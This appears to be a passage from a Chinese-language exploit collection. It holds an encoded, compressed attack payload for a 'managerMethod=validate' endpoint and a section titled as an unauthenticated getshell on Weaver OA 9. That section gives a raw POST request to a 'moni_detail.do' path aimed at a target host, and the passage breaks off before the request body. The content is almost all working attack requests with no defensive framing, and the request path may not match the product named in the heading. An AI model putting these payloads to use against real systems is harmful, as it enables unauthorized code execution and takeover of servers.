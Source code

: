 managerMethod=validate&arguments=%1F%C2%8B%08%00%00%00%00%00%00%00uTY%C2%93%C2%A2H%10%7E%C3%9E%C3%BD%15%C2%84%2F%C3%9A%C3%9136%C2%82%C2%8C%C3%ADN%C3%ACC%7B%21%C2%A2%C2%A8%C2%A0%5C%1B%C3%BB%00U%C3%88a%15%C2%B0rH%C3%991%C3%BF%7D%0B%C2%B0%C2%A7%7Bb%7B%C3%AB%C2%A52%C2%B32%C2%BF%C3%8A%C3%BB%C2%AF%C3%97%C3%AE%29%C2%B9%C3%A0%029%07%C2%92z%C3%9D%3F%C2%98%C3%81%17%C3%A6M%C2%A28%C2%B8%C2%96ts%2F%C3%8B%C2%BB%C3%AF%C3%A2y%C2%95%5E%C2%BC%2C%0B%C2%93%C2%B8%7E%C3%94%C3%B2K%18%C3%BBL%C3%AA%C3%A4%01%C3%B3%27%C3%93%C3%A9%C3%B7%C2%9F%C2%AE%C2%9E%C3%AB%C2%A4i%C3%B6%C2%94y%1EI%C3%A2%C2%A7%C3%8E%C3%B7%C3%9F%C2%99%C3%B6%C3%BC%169%C2%A5%C3%93%0F%C2%93%C3%BE%C2%8E%C2%9A%C3%A4%C3%86%25%C3%8C%C2%BD%0B%C2%93%C2%BE%C3%93%1C%05%C2%88%C2%BD%2B%C3%B3%C2%89Z%C2%AF%C3%86%7F%C3%AC%60%0C%C3%BBQ%C2%96V%C2%9D%C2%87%C2%9F%C2%A0%C3%8C%C3%9D%C2%81%2C%C3%B0%10%C2%AA%3D%C3%98%C2%89%C3%A9%0D%C3%8CR%C3%A2rcVZ%06%C2%B9%2B%0A%C2%B7-%C2%AEel%C3%A8%2CU%16%C3%8C%C2%92r%C3%8D%C2%A5%01%C3%84%C3%B3%02%C3%B0z%C2%B1%C3%86J%C3%A9jc%C3%B98x%29%C2%8F%C3%A2%22%C2%B65%C3%89%C2%87X%27%C2%80C%C2%A5%1B%C2%B1%C3%A1F%1B%12%29%1A%3E%3B%C2%B1r%C3%9Db5%05X%C2%8F%C2%A0%C2%888%5B%13%C2%AE%C2%96%01%C2%91%24%C2%A2%1C%C2%88c%02k%7C%C2%BC%C3%A0%2CM%18%C3%90%C3%B7l%1D%26Y%C3%83%C2%9B%7Ea%C3%B1%2B%01%2C%C3%95%C3%B2S%19%C3%85%C2%B5%C2%8DM%21%C2%87R%C2%B9%C2%8B%C2%AA%7F%00%C3%BF%C3%B2%C3%8D%16%C3%B5%C3%88%15%17%C3%842%C3%95%C3%94%C3%A5%C2%86%C2%8F%C2%92%C2%A8d%C2%96%C2%A9%C3%9C%C2%A4%C3%85%C3%91%C2%B7%C3%8D%C2%80%C2%B5%0D%C3%A1%0C%C3%88dFun%C2%80%C2%ADJ%C3%8BP%11%C2%88s%5D%C2%9E%C2%B7z%07q%1CP%0C%22%C2%89%C2%9B%C3%94%C3%A3%C2%95%01%C2%A0%C2%B4L%C3%A9-%3F%C2%B8Bc%C2%959%C3%86%C3%86%C3%9FsU%00%C3%B8%C2%8Do%C2%93+%C3%B4L%15I%C2%8B%1CZ%21%1A%C3%91%C3%B8Xh%C2%AE%0Ai%C3%99%C3%9A%C2%AD%C2%B1%C2%8Al%C2%8C%0A%C3%BB%C3%98b%C3%8B%C2%A2%C2%94m%C2%A6U%C2%B8%C3%86%15r1d%C2%9D%C3%A9yt2%C3%99g%C2%9A%C3%93%3A%C3%AFg%C3%9B%C2%A8%C3%B5V%01%C3%8D%01%C3%8D%C3%9F%3Do%C2%B1%12%01%C2%8C%C2%AEP%C2%AC%10%C2%9C%09%07%C2%B8%5C%C2%A5.%06%C2%BEscC%C3%BB%C2%B0%1F%C3%98%C2%87%0D%C3%99%1A6%C2%B2%22%C3%BD%C2%BC%3DH%03%2B%C2%94F%C2%80%C3%93oM%0DB%C3%A1%0AM%C3%95%C2%B0%C2%8Cj%60k%7E%085%29s%C3%88y%C2%B4%C3%A7%C3%90%C3%95ic%1C%C2%BF%C3%91k%0C%11%C2%9C%23ZW5p%C2%B1%C2%82%C3%A4%C3%A9j%C2%A2%C3%AA%C2%9BP%3E%C3%A4%C3%91%C2%9A%C3%86%C3%A0%C2%98%C3%BBd%13V%C2%85m%02%C3%BF%C3%88%C3%A9Q%1D%C2%AB%C3%86%C3%A9%C3%82%C2%91%C2%9F+%C2%8B%C3%B8%C3%89%C2%87%3Fc%C3%BB%C3%97%3FS%C2%99H%C2%A1%C2%AC5%C3%B2i%C2%9D%2F%40%C3%BCt%C3%BD%C2%86%C2%AF%C2%9DG.%C3%96yZ%C2%9F%04%C2%8AA%0AH%C2%A3%C3%97%C3%96%C2%A7%C3%96k%C3%BC%C3%BA%C2%B56%C3%B2%C3%B4L%C3%A5+%C2%B1%C2%88pvY%C2%9B%C3%A6c%C2%91%C3%89%C2%A2%C2%80+%C2%99%C3%9C%C2%A01%2C%5C%03%C3%9D%C3%A8%C3%9Bt%C2%AF%2B%0B%25R%C3%A74%C2%AF%C3%A5%C3%9D%C2%AEh%C3%BA%C2%83S%C3%91%3E%C3%96%C2%B1M%7BU%5E%C2%AE%100u%04%C3%B8%7Das%3A%7B%C3%84%C3%BA%C3%9B%1F%05%C2%A8i%3A%C2%B3.%3E%26%C3%94%C3%8F%C2%94%C3%86%40%C3%A3%C2%87%2B7VX%C3%8B%10%22%1A%1F%C3%B5C%C2%AF%C2%A0%C2%B1%C3%88%00%09%C2%9A%C2%9E%C3%9Es%C3%A3%02%C2%8A%C3%BA%10%C3%92%C3%9A%C3%AE%C2%A6%C3%A3%C2%A6%27%01%C2%A7%10%C3%87%C2%9C%C2%B0%C2%AE%C2%A8%C2%B3%C2%BB%C3%A8Z%C2%B6u%5D%C2%95.%C2%BF%7F%7C%C2%9Fq%26%2B%C3%A2%3E%0E3%C3%90%C2%9F%C2%BCh%C3%B3o%C3%83%C2%99%07%12H%C3%87%1C%C3%9E%C3%AFv%C3%82%3FW%C3%AA%C3%BDw%C2%AA%5B%C2%B3%3B%C3%93%C3%9A%C2%B6L%C3%AF%0E%C3%98o%C3%AFIq%3AQ%C2%80f%09%3C%7C%C3%A9%1C%0F%C2%8B%C2%AF%C3%8F%1F%C2%97%C3%84%C3%87-%C3%93o%18%14%C3%B7%3E%C2%82%C3%BF%C2%9F.%40I%C3%A6Q%C3%87%7E%7C%C2%AF%C2%B7+%25%C2%A0wb%C2%B2%C3%9C%C3%89C%C3%80TU%C3%95%7Bx%C3%AD%C3%BE%C2%A0%C2%AB%C2%91%C2%AE%C3%87%C3%97%C3%BA%C3%8E%2F%C2%85%C3%97%C3%BD%C3%BB_%2F%07M%C2%ADU%05%00%00
```

![](https://mmbiz.qpic.cn/sz_mmbiz_png/k89AZuPTXhyDHticBAbNMfhOsxMtGhribAv4pRq5kIKcc5FnCozQu4nhklrhdgvJvD75cY4pteUIQw9eiclSqRgoQ/640)

![](https://mmbiz.qpic.cn/sz_mmbiz_png/k89AZuPTXhyDHticBAbNMfhOsxMtGhribAic8LgPI16aIkVibcSE2SSpFhLCxgVPib3iaxsLCcicHBpDNRSgAEPpmUWhw/640)

### 0x06 泛微 OA 9 前台无限制 getshell

漏洞位置：

```
POST /webadm/?q=moni_detail.do&action=gragh HTTP/1.1
Host: 192.168.10.1
Content-Length: 25
Accept: */*
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/88.0.4324.190 Safari/537.36
Content-Type: application/x-www-form-urlencoded;charset=UTF-8
Origin: chrome-extension://ieoejemkppmjcdfbnfphhpbfmallhfnc
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: EMPHPSID=ffah74s753ae239996a1mmbld0; empos=0
Connection: close
